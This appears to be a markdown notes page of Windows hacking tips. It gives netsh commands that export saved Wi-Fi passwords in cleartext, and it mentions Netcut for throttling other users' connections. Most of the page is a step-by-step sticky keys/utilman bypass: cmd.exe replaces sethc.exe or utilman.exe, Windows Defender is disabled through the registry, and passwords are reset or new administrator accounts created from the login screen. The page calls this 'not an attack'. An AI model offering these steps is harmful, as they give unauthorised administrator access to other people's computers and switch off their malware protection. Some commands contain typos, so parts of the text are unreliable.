





## Find all Wifi passwords 

```
# Show all Wifi profile
> netsh wlan show profile

# Export all wifi profile with passwords
> netsh wlan export profole folder=c:\ key=clear
```


## Netcut

- you want disable,  decrease internet speed of client connected to you router


## Reset Lost Windows 10 Password with Sticky Keys/Utility Manager Method


1. Boot your locked computer using your Windows 10 installation DVD. If your computer doesn’t boot from it, you might need to change the boot order and disable UEFI secure boot .

   

2. After loading the installation files from the DVD, you’ll be shown the language setup screen. Just press

   SHIFT + F10 key combinations to launch the Command Prompt.

   Note: 

   If your computer has BitLocker, start the Setup and choose Repair, as it will ask you for the BitLocker recovery key and then let you head on to a command prompt.

   

3. Use the dir command to find the drive where your Windows was installed. Note that the drive letter for your Windows partition could be D:\ or other as C:\ might be assigned to the System Reserved partition after booting into a Live CD.

   

4. Enter the following two commands one by one, press Enter after each. Replace c:\ with the correct drive letter if Windows is not mounted on c:.

   **The first command backs up the sethc.exe file, and the second replaces it with the cmd.exe**

   ```
   # Sticky Keys
   c:\windows\system32\copy sethc.exe sethcbackup.exe
   c:\windows\system32\copy cmd.exe sethc.exe
   
   # Utility Manager
   c:\windows\system32\copy utilman.exe utilmanbackup.exe
   c:\windows\system32\copy cmd.exe utilman.exe
   ```

   

   

5. Next, run the following commands to disable Windows Defender as it may detect the sticky keys trick as a security alert called "Win32/AccessibilityEscalation".

   ```
   reg load HKLM\temp-hive c:\windows\system32\config\SOFTWARE
   reg add "HKLM\temp-hive\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
   reg unload HKLM\temp-hive
   ```

   

   

6. Now close everything and cancel Windows Setup. Remove the installation disc and reboot.

   

7. Reset Windows 10 Password from Login Screen. Once you get back to Windows 10 login screen, press the SHIFT key 5 times in a row, it will open the Command Prompt in administrator mode.

   

   

   8. Enter the following command to reset your lost Windows 10 password. Substitute the name of the account to reset and a new password as appropriate. If you don’t know your account name, just type net user to list the available user names.

      ```
      # To list the available usernames
      net user
      
      # In my example, I have an account called Master. This will change its password to be Qwerty1.
      netuser Master Qwerty1
      
      # This changes the Administrator user's password to Qwerty1.
      net user Administrator Qwerty1
      
      # This activates a disabled admin account.
      net user Administrator /ACTIVE:YES
      
      # This creates a new user.
      net user TEMP Qwerty1 /ADD
      
      # This makes the new user an admin.
      net localgroup Administrators TEMP /add
      
      # Open the Computer Management screen if you don't like my command-line examples.
      msc
      
      ```
      
      
      
      


**A few points to consider:**

- This is not an attack. If you are worried that this would be used against you as an attack, just make sure you have BitLocker, as it will mitigate this.
- If StickyKeys is disabled via policy, you can try Utilman.exe or DisplaySwitch.exe. If those don't work either, there is a way to hack yourself in via Group Policy; however, that is a story for another post.
- If you can't access Safe Mode, you can also Disable Windows Defender by renaming MsMpEng.exe while in Windows PE.